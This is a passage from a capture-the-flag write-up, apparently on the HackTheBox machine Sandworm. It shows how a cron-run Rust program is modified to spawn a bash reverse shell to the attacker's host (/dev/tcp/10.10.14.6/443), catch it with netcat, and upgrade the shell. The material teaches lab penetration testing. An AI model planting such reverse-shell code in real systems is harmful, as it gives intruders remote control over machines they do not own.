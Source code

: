 ```
            .output()
            .expect("failed to execute");
}

```

I’ll wait for the next two minute cron, and then there’s a file in `/tmp` owned by atlas:

```

silentobserver@sandworm:/dev/shm$ ls -l
total 0
-rw-rw-r-- 1 atlas atlas 0 Nov 15 12:14 0xdf

```

#### Shell

To get a shell, I’ll modify what runs to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

    Command::new("bash")
            .arg("-c")
            .arg("bash -i >& /dev/tcp/10.10.14.6/443 0>&1")
            .output()
            .expect("failed to execute");
}

```

After a couple minutes, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.218 33814
bash: cannot set terminal process group (211145): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ 

```

And this time, the [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) works without issue, which is a good signal it’s not in the jail:

```

atlas@sandworm:/opt/tipnet$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
atlas@sandworm:/opt/tipnet$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
atlas@sandworm:/opt/tipnet$ 

```
